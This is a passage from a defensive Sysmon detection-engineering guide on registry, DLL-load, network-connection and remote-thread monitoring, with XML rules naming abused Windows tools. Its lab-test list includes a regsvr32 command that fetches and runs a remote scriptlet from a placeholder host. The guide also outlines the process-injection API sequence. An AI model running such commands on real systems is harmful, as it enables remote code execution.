* **Mitigation**: Filter known software installers by full path and signature, or accept and triage at SIEM level

**Group Policy Application**
* Domain Group Policy writing to various registry locations
* **Mitigation**: Identify Group Policy engine processes and consider excluding, or use SIEM correlation to identify GP-related changes

**Windows Built-in Maintenance**
* System maintenance tasks modifying registry
* Windows Defender updates changing Defender registry
* **Mitigation**: Baseline normal maintenance patterns and filter at SIEM level

**Management Software**
* SCCM, Tanium, or other endpoint management making registry changes
* **Mitigation**: Document expected management tool behavior and exclude specific processes with full path


Registry monitoring requires careful performance management:

**Start Minimal**: Begin with only the most critical persistence keys (Run, Services, Winlogon) and expand gradually.

**Test Every Addition**: Before adding a new registry filter to production, test it in a lab environment for 24-48 hours to measure event volume.

**Monitor Sysmon CPU Usage**: Registry filtering happens in real-time and can consume CPU. Watch for Sysmon process CPU spikes after configuration changes.

**Typical Volume Expectations**: With a well-tuned configuration monitoring ~20-30 high-value registry paths, expect:
* Workstations: 10-100 events/day
* Servers: 50-500 events/day
* Domain Controllers: Higher due to Group Policy application

**If Volume Exceeds Expectations:**
* Review which specific TargetObject patterns are generating the most events
* Consider if the filter is too broad (using "contains" when "end with" would suffice)
* Evaluate if SIEM-level filtering might be more appropriate
* Validate the key being monitored provides actual detection value


Validate your registry monitoring configuration:

1. **Test Persistence Techniques**: Create a Run key entry in a lab and verify Sysmon logs it
2. **Service Creation**: Create a test service and modify its ImagePath
3. **Defender Tampering Simulation**: Attempt to add Defender exclusions (in isolated environment)
4. **Sticky Keys Test**: Set a debugger for sethc.exe in a lab
5. **Volume Baseline**: Run configuration for 1 week and track daily event volumes
6. **Performance Monitoring**: Watch Sysmon CPU usage to ensure no performance degradation

Registry monitoring, when configured with highly targeted includes focused on known abuse patterns, provides critical detection of persistence, privilege escalation, and defense evasion techniques. The key is maintaining strict discipline about only monitoring proven high-value registry keys to keep volume manageable and performance impact minimal.

## Image Loading


Sysmon will log **EventID 7** for the loading of images (DLLs, OCX files, and other executable modules) by processes. This is one of the highest-volume event types Sysmon can generate and requires extremely careful configuration. If not properly filtered, image loading can produce millions of events per day and significantly impact system performance.


Every time any process loads a library or module, an image load event is generated. Windows processes routinely load dozens or even hundreds of DLLs during normal operation:
* A web browser loading a single webpage might load 50+ DLLs
* Starting Microsoft Office loads hundreds of DLLs
* Windows services continuously load and unload modules
* Security software, frameworks (.NET, Java), and system utilities all load numerous libraries

This makes image loading fundamentally different from other event types. **You cannot use an exclusion-based approach.** Logging all image loads and filtering out noise is not feasible - the volume is simply too high. Instead, image loading requires a **strictly targeted include approach** where you only monitor for specific suspicious DLLs or specific combinations of processes and libraries.


Despite the volume challenges, image loading provides critical visibility into sophisticated attack techniques:

**DLL Injection and Process Injection**: Attackers inject malicious code into legitimate processes by loading DLLs into the target process's memory space. Image load events can detect:
* Unsigned or suspicious DLLs loaded into sensitive processes
* DLLs loaded from unusual paths (temp directories, user folders)
* Known malicious DLLs identified by hash

**Reflective DLL Loading**: Attackers load DLLs directly into memory without touching disk. While harder to detect, monitoring for the loading of uncommon system DLLs can provide indicators.

**Script Engine Abuse**: Many attacks use Windows scripting engines to execute malicious code. Monitoring for the loading of scripting DLLs helps detect:
* PowerShell engine DLLs loaded by non-PowerShell processes
* VBScript or JScript engine DLLs loaded by Office applications (malicious macros)
* Windows Script Host components loaded by unexpected processes

**COM Object Abuse**: Attackers use COM objects and ActiveX controls for execution. Monitoring specific OCX and COM DLLs can detect techniques like:
* Regsvr32 loading scrobj.dll (Squiblydoo technique)
* MSHTA loading JavaScript engines to bypass AMSI

**Living Off the Land Detection**: Legitimate Windows binaries executing malicious actions often load specific DLLs that indicate suspicious behavior.

**MITRE ATT&CK Mapping**: Image loading events help detect:
* **T1055 - Process Injection**: Injecting DLLs into running processes
* **T1055.001 - DLL Injection**: Classic DLL injection techniques
* **T1129 - Shared Modules**: Loading malicious shared libraries
* **T1059.001 - PowerShell**: Detecting PowerShell execution via System.Management.Automation.dll
* **T1059.005 - Visual Basic**: Detecting VBScript via vbscript.dll
* **T1218.010 - Regsvr32**: Squiblydoo technique via scrobj.dll
* **T1218.005 - Mshta**: MSHTA abuse via jscript9.dll loading


Because of the extreme volume, image loading must be configured with **targeted includes only**. You specify exactly which DLLs to monitor or which process and DLL combinations indicate malicious activity. This approach keeps event volume manageable while maintaining detection capability for high-value indicators.

**Never attempt to:**
* Log all image loads and exclude noise
* Monitor all DLLs loaded by specific processes
* Use broad wildcards or patterns

**Always:**
* Monitor specific suspicious DLLs known to indicate attacks
* Combine process and DLL criteria (e.g., only log PowerShell DLL when loaded by non-PowerShell processes)
* Start with a minimal configuration and expand carefully based on detection gaps

The event fields are:

* **RuleName**: Name of rule that triggered the event.

* **UtcTime**: Time in UTC when event was created

* **ProcessGuid**: Process Guid of the process that loaded the image

* **ProcessId**: Process ID used by the OS to identify the process
    that loaded the image

* **Image**: File path of the process that loaded the image

* **ImageLoaded**: Path of the image loaded

* **FileVersion**: Version of the image loaded

* **Description**: Description of the image loaded

* **Product**: Product name the image loaded belongs to

* **Company**: Company name the image loaded belongs to

* **OriginalFileName**: OriginalFileName from the PE header, added on
    compilation

* **Hashes**: Full hash of the file with the algorithms in the
    HashType field

* **Signed**: State whether the image loaded is signed

* **Signature**: The signer name

* **SignatureStatus**: status of the signature


Based on common attack techniques, these DLLs provide the best signal-to-noise ratio:

**Scripting and Execution Engines:**
* **System.Management.Automation.dll** and **System.Management.Automation.ni.dll** - PowerShell engine (detect PowerShell loaded by non-PowerShell processes)
* **vbscript.dll** - VBScript engine (common in malicious macros and scripts)
* **jscript.dll** and **jscript9.dll** - JavaScript engines (used in MSHTA and script-based attacks)
* **scrrun.dll** - Windows Script Runtime (file system and registry access from scripts)
* **wshom.ocx** - Windows Script Host Object Model (used by malicious scripts)

**COM and ActiveX Abuse:**
* **scrobj.dll** - Script Component Runtime (Squiblydoo/Regsvr32 abuse)
* **msxml3.dll** and **msxml6.dll** - XML parsing (used in some script-based attacks)

**Credential Access:**
* **samlib.dll** - Security Accounts Manager library (credential dumping)
* **vaultcli.dll** - Windows Vault access (credential theft)
* **wdigest.dll** - WDigest authentication (credential access)

**Injection and Debugging:**
* **dbghelp.dll** and **dbgcore.dll** - Debugging libraries (process dumping, credential theft)
* **ntdll.dll** loaded from unusual paths - Core system DLL from non-system location (DLL hijacking)

**Suspicious DLL Characteristics to Monitor:**
* Unsigned DLLs loaded into signed processes
* DLLs loaded from user-writable directories (C:\\Users\\*, C:\\ProgramData\\*, C:\\Windows\\Temp\\*)
* DLLs with suspicious names or no metadata
* Known malicious DLL hashes from threat intelligence


**Example 1: Script Engine Detection**

```xml
<Sysmon schemaversion="4.22">
    <EventFiltering>
        <RuleGroup name="" groupRelation="or">
            <ImageLoad onmatch="include">
                <!--Detect execution of HTA using the IE Javascript engine to bypass AMSI-->
                <!--Note: Rule placed before Windows Scriptingh to ensure it triggers on this on case any other component is used.-->
                <Rule groupRelation="and">
                    <ImageLoaded name="technique_id=T1170,technique_name=MSHTA with AMSI Bypass" condition="end with">jscript9.dll</ImageLoaded>
                    <Image condition="end with">mshta.exe</Image>
                </Rule>
                <!--Capture components used by malicious macros and scripts.-->
                <Rule groupRelation="or">
                    <ImageLoaded name="technique_id=T1064,technique_name=Windows Scripting Host Component" condition="end with">wshom.ocx</ImageLoaded>
                    <ImageLoaded condition="end with">scrrun.dll</ImageLoaded>
                    <ImageLoaded condition="end with">vbscript.dll</ImageLoaded>
                </Rule>
                <!--Check for loading of the PowerShell engine-->
                <Rule groupRelation="or">
                    <ImageLoaded name="technique_id=T1086,technique_name=PowerShell Engine" condition="end with">System.Management.Automation.ni.dll</ImageLoaded>
                    <ImageLoaded condition="end with">System.Management.Automation.dll</ImageLoaded>
                </Rule>
                <!--Detect the Squiblydoo technique-->
                <Rule groupRelation="or">
                    <ImageLoaded name="technique_id=T1117,technique_name=Regsvr32" condition="end with">scrobj.dll</ImageLoaded>
                </Rule>
            </ImageLoad>
        </RuleGroup>
    </EventFiltering>
</Sysmon>
```

**Example 2: Detecting Unsigned DLLs in Sensitive Processes**

Monitor for unsigned libraries loaded into critical system processes:

```xml
<ImageLoad onmatch="include">
  <Rule name="UnsignedDLLInSystemProcess" groupRelation="and">
    <Image condition="is">C:\Windows\System32\lsass.exe</Image>
    <Signed condition="is">false</Signed>
  </Rule>
  <Rule name="UnsignedDLLInExplorer" groupRelation="and">
    <Image condition="is">C:\Windows\explorer.exe</Image>
    <Signed condition="is">false</Signed>
  </Rule>
</ImageLoad>
```

**Example 3: DLL Loading from Suspicious Paths**

Detect DLLs loaded from user-writable or temporary directories:

```xml
<ImageLoad onmatch="include">
  <Rule name="DLLFromTempDirectory" groupRelation="or">
    <ImageLoaded condition="begin with">C:\Users\</ImageLoaded>
    <ImageLoaded condition="begin with">C:\Windows\Temp\</ImageLoaded>
    <ImageLoaded condition="begin with">C:\ProgramData\</ImageLoaded>
  </Rule>
</ImageLoad>
```

**Example 4: Credential Access DLL Monitoring**

```xml
<ImageLoad onmatch="include">
  <Rule name="CredentialAccessDLLs" groupRelation="or">
    <ImageLoaded condition="end with">samlib.dll</ImageLoaded>
    <ImageLoaded condition="end with">vaultcli.dll</ImageLoaded>
    <ImageLoaded condition="end with">wdigest.dll</ImageLoaded>
  </Rule>
</ImageLoad>
```


When reviewing image load events, prioritize these patterns:

**1. PowerShell Engine Loaded by Non-PowerShell Processes**
* System.Management.Automation.dll loaded by Excel, Word, or other Office applications (malicious macro)
* PowerShell DLL loaded by rundll32.exe, regsvr32.exe, or other LOLBins
* PowerShell loaded by unknown or suspicious processes

**2. Script Engines in Office Applications**
* vbscript.dll, jscript.dll, or wshom.ocx loaded by WINWORD.EXE or EXCEL.EXE (macros or embedded scripts)
* scrrun.dll providing file system access from documents

**3. Squiblydoo and COM Abuse**
* scrobj.dll loaded by regsvr32.exe (classic Squiblydoo)
* Unexpected processes loading COM or ActiveX components

**4. DLL Hijacking Indicators**
* System DLLs (ntdll.dll, kernel32.dll, etc.) loaded from non-system paths
* DLLs with names similar to system DLLs but from user directories

**5. Debugging DLLs Against Critical Processes**
* dbghelp.dll or dbgcore.dll loaded into lsass.exe or other sensitive processes
* Correlation with Process Access events for comprehensive credential dumping detection

**6. Unsigned or Suspicious DLLs**
* Unsigned DLLs loaded into signed processes (potential injection)
* DLLs from temporary directories or download folders
* DLLs with no version information or metadata


Even with targeted includes, some false positives may occur:

**Legitimate PowerShell Usage**: Some enterprise software legitimately uses PowerShell engine DLLs. Document these and create specific exclusions for known-good processes with full path verification.

**Development Environments**: Visual Studio and development tools load many scripting engines and components. Consider excluding developer workstations or specific development tool paths.

**Management Software**: Configuration management tools, monitoring agents, and administrative software may load scripting engines. Whitelist by full path and signature.

**Third-Party Software**: Some commercial applications use embedded scripting. Baseline your environment to identify legitimate uses.

**Mitigation Strategy**:
* Combine multiple criteria (process + DLL + signature status + path)
* Use exclusions sparingly and with full path verification
* Document all exclusions and review quarterly
* Prefer SIEM-level filtering for known-good over Sysmon exclusions


Image loading can impact system performance if misconfigured:

**Minimize Monitored DLLs**: Only monitor DLLs with proven detection value. Resist the urge to add every interesting DLL.

**Avoid Wildcards**: Wildcards in ImageLoaded filters can match many DLLs. Be specific.

**Disable on High-Load Systems**: Consider disabling image load monitoring on extremely busy servers (web servers, databases) and focusing on workstations and sensitive servers.

**Test Before Deployment**: Deploy image load configurations to a small test group first and monitor Sysmon CPU usage and event volume.

**Use Signature Checking Wisely**: Checking signatures adds processing overhead. Use signature filters only when necessary.


Validate your image loading configuration captures attacks without overwhelming your systems:

1. **Test Script-Based Attacks**: Execute a malicious macro in a lab to verify detection of vbscript.dll loading
2. **PowerShell Detection**: Test PowerShell execution from unusual processes
3. **Squiblydoo Simulation**: Test regsvr32 /u /s /i:http://example.com/payload.sct scrobj.dll technique
4. **Monitor Volume**: Track image load event volume daily to ensure it remains manageable (typically <1000 events/day/host for well-configured systems)
5. **CPU Impact**: Monitor Sysmon CPU usage to ensure image loading is not causing performance issues

Image loading monitoring, when properly configured with targeted includes, provides valuable detection of sophisticated attack techniques like DLL injection, script engine abuse, and process injection. The key is maintaining strict discipline about only monitoring high-value indicators to keep volume and performance impact manageable.

## Network Connections


Sysmon will log **EventID 3** for all TCP and UDP network connections made by processes on the system. Network connection monitoring is critical for detection engineering because it provides visibility into command and control communications, lateral movement, data exfiltration, and initial access attempts. However, this is also one of the highest-volume event types Sysmon can generate, requiring careful configuration to balance visibility with manageability.


Network connection logging provides insight into several critical attack phases:

**Command and Control (C2)**: After initial compromise, attackers establish communication channels to remotely control infected systems. Network connection logs help detect:
* Beaconing patterns to external IP addresses
* Connections to known malicious infrastructure
* Unusual protocols or ports for outbound communication
* Communication from processes that should not make network connections

**Lateral Movement**: Attackers move between systems within a network using various protocols. Network logs capture:
* SMB connections between workstations (unusual peer-to-peer traffic)
* RDP or WinRM connections from unexpected sources
* Administrative tool usage across systems
* Pass-the-hash and other credential theft-based movement

**Data Exfiltration**: When attackers steal data, they must transmit it somewhere. Network monitoring detects:
* Large volume transfers to external destinations
* Connections to cloud storage or file sharing services from unusual processes
* Data moving to geographic regions where your organization does not operate
* Exfiltration through unusual protocols or applications

**Living Off the Land**: Attackers abuse legitimate Windows tools to avoid detection. Network logs help identify when built-in tools make suspicious connections:
* PowerShell connecting to the internet
* cmd.exe, wscript.exe, or certutil.exe downloading files
* Administrative tools like wmic.exe or sc.exe used remotely
* Compilation tools like msbuild.exe fetching remote resources

**MITRE ATT&CK Mapping**: Network connection events help detect numerous techniques:
* **T1071 - Application Layer Protocol**: C2 communication over standard protocols
* **T1095 - Non-Application Layer Protocol**: C2 using custom protocols
* **T1041 - Exfiltration Over C2 Channel**: Data theft via command and control
* **T1048 - Exfiltration Over Alternative Protocol**: Using uncommon channels for data theft
* **T1021 - Remote Services**: RDP, SMB, WinRM for lateral movement
* **T1090 - Proxy**: Using proxies or tunnels to obscure communication
* **T1105 - Ingress Tool Transfer**: Downloading additional attack tools


Network connections are extremely high-volume. A typical Windows workstation generates hundreds to thousands of network connections per hour through:
* Web browsers making dozens of connections per webpage
* Cloud applications constantly syncing data
* Operating system telemetry and update checks
* Background applications and services
* Email clients, chat applications, collaboration tools

On servers, especially domain controllers or application servers, network connection volume can reach tens of thousands per hour. Logging all connections without filtering will:
* Overwhelm your SIEM with millions of events daily
* Consume significant storage
* Make it nearly impossible to find meaningful detections in the noise
* Impact Sysmon and system performance

This event type requires either an **outlier-based exclusion approach** (filter out known-good, log everything else) or a **targeted include approach** (only log specific suspicious processes or ports). Many organizations use a hybrid strategy.


**Do NOT blindly exclude all cloud service connections.** Attackers frequently abuse legitimate cloud tools and services to blend in with normal traffic and evade perimeter monitoring. Be extremely cautious when considering exclusions for cloud-related processes.

**Known Attack Patterns Using Cloud Services:**

* **cloudflared.exe** (Cloudflare Tunnel) - Attackers use this legitimate Cloudflare tool to tunnel SSH, RDP, and Remote Monitoring and Management (RMM) tool connections through Cloudflare's network. This bypasses traditional perimeter controls and appears as normal HTTPS traffic to Cloudflare infrastructure. Always log cloudflared.exe connections and investigate unexpected usage.

* **cmd5.exe** (AWS CLI) - Attackers have used modified or legitimate versions of AWS command-line tools for data exfiltration to AWS S3 buckets. If your organization does not routinely use AWS CLI tools on endpoints, these should always be logged.

* **rclone** - This legitimate cloud storage synchronization tool is heavily abused by attackers for data exfiltration to various cloud storage providers (Google Drive, Dropbox, OneDrive, Mega, etc.). Attackers use rclone because it can transfer large amounts of data to cloud storage while appearing as normal cloud sync traffic, evading perimeter data loss prevention (DLP) monitoring.

* **Cloud Storage Client Abuse** - Legitimate sync clients (OneDrive, Google Drive, Dropbox) can be abused to exfiltrate data by attackers who install them or use existing installations with attacker-controlled accounts.

**Best Practice**: Instead of excluding cloud tools, implement **conditional monitoring**:
* Log cloud tool usage from unexpected user accounts
* Log cloud tools running from unusual paths (temp directories, user downloads)
* Monitor for cloud tools on servers where they should not exist
* Track volume of data transferred by cloud tools
* Alert on first-time usage of cloud tools in your environment


**Strategy 1 - Targeted Includes for Suspicious Processes (Recommended for Most)**

The most practical approach for most organizations is to only log network connections from processes that should rarely or never make network connections. This dramatically reduces volume while capturing the most valuable detections.

**Strategy 2 - Exclusion-Based with Aggressive Filtering**

Some organizations with sufficient SIEM capacity log all connections but exclude high-volume, known-good applications. This provides broader visibility but requires more storage and processing.

**Strategy 3 - Hybrid Approach**

Combine both strategies: include specific suspicious processes and exclude specific high-volume benign applications, logging everything else that falls between.

**Important DNS Lookup Note**: The DestinationHostname field uses the GetNameInfo API for reverse DNS lookups. This is often unreliable - it may return CDN names, may have no information, or may be spoofable. Since Sysmon v11.0, you can disable this behavior using ```<DnsLookup>False</DnsLookup>``` at the root of the configuration file. Disabling DNS lookup also improves performance and reduces dependencies on network availability.

**Port Name Consideration**: The DestinationPortName field uses GetNameInfo API for friendly port names. On systems where services run under svchost.exe, most connections will show svchost.exe as the source process.

The fields for the event are:

* **RuleName**: Name of rule that triggered the event

* **UtcTime**: Time in UTC when event was created

* **ProcessGuid**: Process GUID of the process that made the network connection

* **ProcessId**: Process ID used by the OS to identify the process that made the network connection

* **Image**: File path of the process that made the network connection

* **User**: Name of the account who made the network connection

* **Protocol**: Protocol being used for the network connection

* **Initiated**: Indicated process-initiated TCP connection

* **SourceIsIpv6**: Is the source IP an Ipv6

* **SourceIp**: Source IP address that made the network connection

* **SourceHostname**: DNS name of the host that made the network connection

* **SourcePort**: Source port number

* **SourcePortName**: Name of the source port being used

* **DestinationIsIpv6**: Is the destination IP an Ipv6

* **DestinationIp**: IP address destination

* **DestinationHostname**: DNS name of the host that is contacted

* **DestinationPort**: Destination port number

* **DestinationPortName**: Name of the destination port


**Example 1: Targeted Includes for Living Off the Land Binaries**

This configuration only logs network connections from Windows built-in tools and commonly abused utilities:

```xml
<Sysmon schemaversion="4.22">
   <EventFiltering>
 <RuleGroup name="" groupRelation="or">
      <NetworkConnect onmatch="include">
            <!--Native Windows tools - Living off the land-->
            <Image name="technique_id=T1053,technique_name=Scheduled Task" condition="image">at.exe</Image> <!--Microsoft:Windows: Remote task scheduling | Credit @ion-storm -->
            <Image name="technique_id=T1218,technique_name=Signed Binary Proxy Execution" condition="image">certutil.exe</Image> <!--Microsoft:Windows: Certificate tool can contact outbound | Credit @ion-storm and @FVT [ https://twitter.com/FVT/status/834433734602530817 ] -->
            <Image condition="image">cmd.exe</Image> <!--Microsoft:Windows: Command prompt-->
            <Image name="technique_id=T1218,technique_name=Signed Script Proxy Execution" condition="image">cscript.exe</Image><!--Microsoft:WindowsScriptingHost: | Credit @Cyb3rOps [ https://gist.github.com/Neo23x0/a4b4af9481e01e749409 ] -->
            <Image condition="image">java.exe</Image> <!--Java: Monitor usage of vulnerable application | Credit @ion-storm -->
            <Image name="technique_id=T1170,technique_name=Mshta" condition="image">mshta.exe</Image><!--Microsoft:Windows: HTML application executes scripts without IE protections | Credit @ion-storm [ https://en.wikipedia.org/wiki/HTML_Application ] -->
            <Image name="technique_id=T1218,technique_name=Signed Binary Proxy Execution" condition="image">msiexec.exe</Image> <!--Microsoft:Windows: Can install from http:// paths | Credit @vector-sec -->
            <Image name="technique_id=T1069,technique_name=Permission Groups Discovery" condition="image">net.exe</Image> <!--Mitre T1018--><!--Mitre T1077--><!--Mitre T1087--><!--Mitre T1135--><!--Mitre T1069--><!--Mitre T1016--><!--Microsoft:Windows: "net use"/"net view" used by attackers to surveil and connect with file shares from command line | Credit @ion-storm -->
            <Image name="technique_id=T1218,technique_name=Signed Binary Proxy Execution" condition="image">notepad.exe</Image> <!--Microsoft:Windows: [ https://blog.cobaltstrike.com/2013/08/08/why-is-notepad-exe-connecting-to-the-internet/ ] -->
            <Image name="technique_id=T1218,technique_name=Signed Binary Proxy Execution" condition="image">powershell.exe</Image><!--Microsoft:Windows: PowerShell interface-->
            <Image name="technique_id=T1012,technique_name=Query Registry" condition="image">reg.exe</Image> <!--Mitre T1012--><!--Mitre T1112--><!--Microsoft:Windows: Remote Registry | Credit @ion-storm -->
            <Image name="technique_id=T1218,technique_name=Regsvr32" condition="image">regsvr32.exe</Image><!--Microsoft:Windows: [ https://subt0x10.blogspot.com/2016/04/bypass-application-whitelisting-script.html ] -->
            <Image name="technique_id=T1085,technique_name=Rundll32" condition="image">rundll32.exe</Image><!--Microsoft:Windows: [ https://blog.cobaltstrike.com/2016/07/22/why-is-rundll32-exe-connecting-to-the-internet/ ] -->
            <Image name="technique_id=T1031,technique_name=Modify Existing Service" condition="image">sc.exe</Image> <!--Microsoft:Windows: Remotely change Windows service settings from command line | Credit @ion-storm -->
            <Image name="technique_id=T1047,technique_name=Windows Management Instrumentation" condition="image">wmic.exe</Image> <!--T1047--><!--Mitre T1135--><!--Microsoft:WindowsManagementInstrumentation: Credit @Cyb3rOps [ https://gist.github.com/Neo23x0/a4b4af9481e01e749409 ] -->
            <Image name="technique_id=T1218,technique_name=Signed Script Proxy Execution" condition="image">wscript.exe</Image> <!--Microsoft:WindowsScriptingHost: | Credit @arekfurt -->
            <Image condition="image">driverquery.exe</Image> <!--Microsoft:Windows: Remote recognisance of system configuration, oudated/vulnerable drivers -->
            <Image condition="image">dsquery.exe</Image> <!--Microsoft: Query Active Directory -->
            <Image condition="image">hh.exe</Image> <!--Microsoft:Windows: HTML Help Executable, opens CHM files -->
            <Image condition="image">infDefaultInstall.exe</Image> <!--Microsoft: [ https://github.com/huntresslabs/evading-autoruns ] | Credit @KyleHanslovan -->
            <Image condition="image">javaw.exe</Image> <!--Java: Monitor usage of vulnerable application and init from JAR files -->
            <Image condition="image">javaws.exe</Image> <!--Java: Monitor usage of vulnerable application and init from JAR files -->
            <Image name="technique_id=T1031,technique_name=Modify Existing Service" condition="image">mmc.exe</Image> <!--Microsoft:Windows: -->
            <Image name="technique_id=T1218,technique_name=Signed Binary Proxy Execution" condition="image">msbuild.exe</Image><!--Microsoft:Windows: [ https://www.hybrid-analysis.com/sample/a314f6106633fba4b70f9d6ddbee452e8f8f44a72117749c21243dc93c7ed3ac?environmentId=100 ] -->
            <Image name="technique_id=T1016,technique_name=System Network Configuration Discovery" condition="image">nbtstat.exe</Image> <!--Microsoft:Windows: NetBIOS statistics, attackers use to enumerate local network -->
            <Image name="technique_id=T1069,technique_name=Permission Groups Discovery" condition="image">net1.exe</Image> <!--Mitre T1018--><!--Mitre T1077--><!--Mitre T1087--><!--Mitre T1135--><!--Mitre T1069--><!--Mitre T1016--><!--Microsoft:Windows: Launched by "net.exe", but it may not detect connections either -->
            <Image name="technique_id=T1018,technique_name=Remote System Discovery" condition="image">nslookup.exe</Image> <!--Microsoft:Windows: Retrieve data over DNS -->
            <Image name="technique_id=T1057,technique_name=Process Discovery" condition="image">qprocess.exe</Image> <!--Microsoft:Windows: [ https://www.first.org/resources/papers/conf2017/APT-Log-Analysis-Tracking-Attack-Tools-by-Audit-Policy-and-Sysmon.pdf ] -->
            <Image name="technique_id=T1057,technique_name=Process Discovery" condition="image">qwinsta.exe</Image> <!--Microsoft:Windows: Remotely query login sessions on a server or workstation | Credit @ion-storm -->
            <Image name="technique_id=T1121,technique_name=Regsvcs/Regasm" condition="image">regsvcs.exe</Image> <!--Microsoft:Windows: [ https://www.hybrid-analysis.com/sample/3f94d7080e6c5b8f59eeecc3d44f7e817b31562caeba21d02ad705a0bfc63d67?environmentId=100 ] -->
            <Image name="technique_id=T1057,technique_name=Process Discovery" condition="image">rwinsta.exe</Image> <!--Microsoft:Windows: Disconnect remote sessions | Credit @ion-storm -->
            <Image name="technique_id=T1053,technique_name=Scheduled Task" condition="image">schtasks.exe</Image> <!--Microsoft:Windows: Command-line interface to local and remote tasks -->
            <Image name="technique_id=T1089,technique_name=Disabling Security Tools" condition="image">taskkill.exe</Image> <!--Microsoft:Windows: Kill processes, has remote ability -->
            <Image name="technique_id=T1057,technique_name=Process Discovery" condition="image">tasklist.exe</Image> <!--Microsoft:Windows: List processes, has remote ability -->
      <Image name="technique_id=T1218,technique_name=Signed Binary Proxy Execution" condition="image">replace.exe</Image>
    </NetworkConnect>
</RuleGroup>
</EventFiltering>
</Sysmon>
```

**Example 2: Including Cloud Tools and Data Transfer Utilities**

Add these to your includes to capture potential exfiltration attempts:

```xml
<NetworkConnect onmatch="include">
  <!-- Cloud and Exfiltration Tools -->
  <Image condition="end with">cloudflared.exe</Image> <!-- Cloudflare tunnel - SSH/RDP tunneling -->
  <Image condition="end with">rclone.exe</Image> <!-- Cloud sync tool - data exfiltration -->
  <Image condition="end with">aws.exe</Image> <!-- AWS CLI -->
  <Image condition="end with">cmd5.exe</Image> <!-- AWS CLI S3 tool -->
  <Image condition="end with">gsutil.exe</Image> <!-- Google Cloud Storage -->
  <Image condition="end with">azcopy.exe</Image> <!-- Azure Storage -->
  <Image condition="contains">ngrok</Image> <!-- Tunneling service -->
  <Image condition="contains">curl.exe</Image> <!-- Data transfer utility -->
  <Image condition="contains">wget.exe</Image> <!-- Data transfer utility -->
</NetworkConnect>
```


When reviewing network connection events, prioritize these patterns:

**1. Unexpected Process Making Connections**
* Any Windows system tool (cmd.exe, powershell.exe, wmic.exe) connecting to external IPs
* Compilation or scripting tools (msbuild.exe, cscript.exe, wscript.exe) making network requests
* Office applications (WINWORD.EXE, EXCEL.EXE) connecting to unusual destinations

**2. Cloud Tools from Unusual Locations**
* cloudflared.exe, rclone, or AWS tools running from temp directories or user downloads
* Cloud sync tools on servers or systems where they should not be installed
* Multiple cloud tools appearing on the same system in a short timeframe

**3. Lateral Movement Indicators**
* Workstation-to-workstation SMB (port 445) or RDP (port 3389) connections
* WinRM (port 5985/5986) connections between non-administrative systems
* Administrative tools connecting to multiple internal systems in sequence

**4. Geographic Anomalies**
* Connections to countries where your organization does not operate
* Connections to known high-risk geographic regions
* Sudden change in connection destinations for a process

**5. Volume Anomalies**
* Unusually large number of connections from a single process
* High-volume data transfer from a process that should not transfer significant data
* Beaconing patterns (regular, repeated connections at fixed intervals)

**6. Port and Protocol Anomalies**
* Connections on unusual ports (high-numbered ports, non-standard services)
* Protocols used in unexpected ways (DNS tunneling, ICMP tunneling)
* Standard ports used by non-standard processes


If using an exclusion-based approach, these are commonly excluded high-volume processes. However, implement these exclusions with specific criteria to prevent abuse:

**Browsers** - Exclude by full path and verify signed:
```xml
<Rule name="ChromeBrowser" groupRelation="and">
  <Image condition="begin with">C:\Program Files\Google\Chrome\Application\</Image>
  <Signed condition="is">true</Signed>
</Rule>
```

**System Updates** - Exclude Windows Update and known software updaters:
```xml
<Rule name="WindowsUpdate" groupRelation="and">
  <Image condition="is">C:\Windows\System32\svchost.exe</Image>
  <DestinationPort condition="is">443</DestinationPort>
  <DestinationHostname condition="contains">windowsupdate</DestinationHostname>
</Rule>
```

**NEVER Exclude These Without Additional Context:**
* PowerShell or cmd.exe making any external connections
* Cloudflared, rclone, or other tunneling/sync tools
* Administrative tools (wmic, sc, net, reg, etc.)
* Script hosts (cscript, wscript, mshta)
* Processes running from temp directories


After implementing network connection monitoring, validate effectiveness:

1. **Simulate C2 Traffic**: Use tools like Cobalt Strike or Metasploit in a lab to verify C2 beacon detection
2. **Test Cloud Exfiltration**: Upload a test file using rclone to verify detection
3. **Lateral Movement Simulation**: Test WinRM or PsExec between systems to ensure logging
4. **Baseline Normal Traffic**: Run your configuration for 1-2 weeks to understand typical volume and patterns
5. **Tune Exclusions**: Gradually add exclusions for verified benign high-volume traffic
6. **Monitor False Negative Risk**: Regularly test that exclusions have not created detection blind spots

Network connection monitoring, when properly configured, provides critical visibility into attacker communications, lateral movement, and data theft. The key is finding the balance between comprehensive coverage and manageable event volume through thoughtful inclusion and exclusion rules.

## Create Remote Thread


Sysmon will log **EventID 8** for processes that use the Win32 API [CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) call. This is a **low-volume, high-value event type** that detects one of the most common process injection techniques used by malware and attackers.


CreateRemoteThread is a classic process injection technique where one process creates a thread in another process to execute code. This is used by attackers for:

**Code Injection**: Injecting malicious code into legitimate processes to evade detection and inherit the target process's privileges and context.

**Defense Evasion**: Running malicious code inside trusted processes (explorer.exe, svchost.exe) to avoid detection by security tools that trust those processes.

**Privilege Escalation**: Injecting into processes running with higher privileges.

**Persistence**: Maintaining presence by continuously injecting into long-running system processes.

**MITRE ATT&CK Mapping**:
* **T1055.001 - Process Injection: Dynamic-link Library Injection**
* **T1055.002 - Process Injection: Portable Executable Injection**
* **T1055 - Process Injection** (general)


Process injection using CreateRemoteThread follows this pattern:

Process of use/abuse of CreateRemoteThread

* Use **OpenProcess( )** to open a target process.

* Use **VirtualAllocEx( )** allocate a chunk of memory in the process.

* Use **WriteProcessMemory( )** write the payload to the newly
    allocated section.

* User **CreateRemoteThread( )** to create a new thread in the remote
    process to execute the shellcode.

There are multiple Process Injection techniques, Sysmon monitors for the
most common one used. The infographic from
<http://struppigel.blogspot.com/2017/07/process-injection-info-graphic.html>

Illustrates the different techniques.


The fields for the event are:

* **RuleName**: Name of rule that triggered the event.

* **UtcTime**: Time in UTC when event was created

* **SourceProcessGuid**: Process Guid of the source process that
    created a thread in another process

* **SourceProcessId**: Process ID used by the OS to identify the
    source process that created a thread in another process

* **SourceImage**: File path of the source process that created a
    thread in another process

* **TargetProcessGuid**: Process Guid of the target process

* **TargetProcessId**: Process ID used by the OS to identify the
    target process

* **TargetImage**: File path of the target process

* **NewThreadId**: Id of the new thread created in the target process

* **StartAddress**: New thread start address

* **StartModule**: Start module determined from thread start address
    mapping to PEB loaded module list

* **StartFunction**: Start function is reported if exact match to
    function in image export tables


The number of processes that legitimately use CreateRemoteThread() in a production environment is **very low**. This makes it ideal for a **log-all approach** with minimal exclusions.

